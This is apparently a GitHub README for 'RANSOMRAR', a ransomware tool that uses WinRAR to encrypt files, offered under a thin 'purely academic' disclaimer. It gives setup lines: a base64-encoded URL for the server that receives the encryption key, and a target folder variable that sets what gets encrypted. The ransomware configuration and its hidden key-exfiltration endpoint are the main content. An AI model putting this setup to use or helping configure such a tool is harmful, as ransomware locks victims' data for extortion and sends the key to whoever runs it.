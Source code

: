 
          ____      _    _   _ ____   ___  __  __ ____      _    ____  
         |  _ \    / \  | \ | / ___| / _ \|  \/  |  _ \    / \  |  _ \ 
         | |_) |  / _ \ |  \| \___ \| | | | |\/| | |_) |  / _ \ | |_) |
         |  _ <  / ___ \| |\  |___) | |_| | |  | |  _ <  / ___ \|  _ < 
         |_| \_\/_/   \_\_| \_|____/ \___/|_|  |_|_| \_\/_/   \_\_| \_\ by jhdbw
                                                                                                                                                
This project is purely academic, use at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization.

Remember to specify the server that will receive the key:
```javascript
REM set b64="http://127.0.0.1:7777/"
set b64=Imh0dHA6Ly8xMjcuMC4wLjE6Nzc3Ny8i
```

To limit the scope of RANSOMRAR check the following line of code:
```javascript
set target=%HOMEPATH%\ransomrar
```
### Pre requirements
The computer must have WinRAR installed.

